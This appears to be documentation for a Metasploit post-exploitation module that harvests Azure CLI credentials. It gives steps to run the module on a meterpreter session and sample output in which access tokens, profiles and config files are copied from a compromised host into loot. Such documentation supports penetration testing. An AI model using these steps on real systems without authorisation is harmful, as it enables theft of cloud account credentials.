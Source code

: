 ## Vulnerable Application

Any windows, linux, or osx system with a `meterpreter` session and

[Azure CLI 2.0+](https://docs.microsoft.com/en-us/cli/azure/?view=azure-cli-latest).

Successfully tested on:

* Azure CLI 2.0.33 on Windows Server 2012 R2, and Windows 10
* azure-cli 2.0.33-1.el7 on openSUSE Tumbleweed 20180517

## Verification Steps

1. Install Azure CLI
2. Start msfconsole
3. Get a `meterpreter` session on some host.
4. Do: `use post/multi/gather/azure_cli_creds`
5. Do: `set SESSION [SESSION_ID]`
6. Do: `run`
7. If the system has readable configuration files for Azure CLI, they will stored in loot and a summary will be printed to the screen.

## Options

## Scenarios

### A new install of 2.0.33 (empty data files) on Windows 10

```
[msf](Jobs:0 Agents:1) post(multi/gather/azure_cli_creds) > run

[*] az cli version: 2.0.33
[*] Looking for az cli data in C:\Users\windows
[*]   Checking for config files
[+]     .Azure/config stored in /root/.msf4/loot/20240616175854_default_111.111.1.11_azure.config.ini_081029.txt
[*]   Checking for context files
[*]   Checking for profile files
[+]     .Azure/azureProfile.json stored in /root/.msf4/loot/20240616175855_default_111.111.1.11_azure.profile.js_357740.txt
[*]   Checking for console history files
[*] Post module execution completed
```

```
msf5 post(multi/gather/azure_cli_creds) > run

[+] /home/james/.azure/accessTokens.json stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.jwt_tok_029844.txt
[+] /home/james/.azure/azureProfile.json stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.azure_p_897386.txt
[+] /home/james/.azure/config stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.config_976372.txt
Subscriptions
=============

Source                                Account Name              Username                  Cloud Name
------                                ------------              --------                  ----------
/home/james/.azure/azureProfile.json  Some Azure Account Name   example.user@example.com  AzureCloud
/home/james/.azure/azureProfile.json  Some Azure Account Name2  example.user@example.com  AzureCloud


Tokens
======

Source                                Username                  Count
------                                --------                  -----
/home/james/.azure/accessTokens.json  example.user@example.com  2

[*] Post module execution completed

```
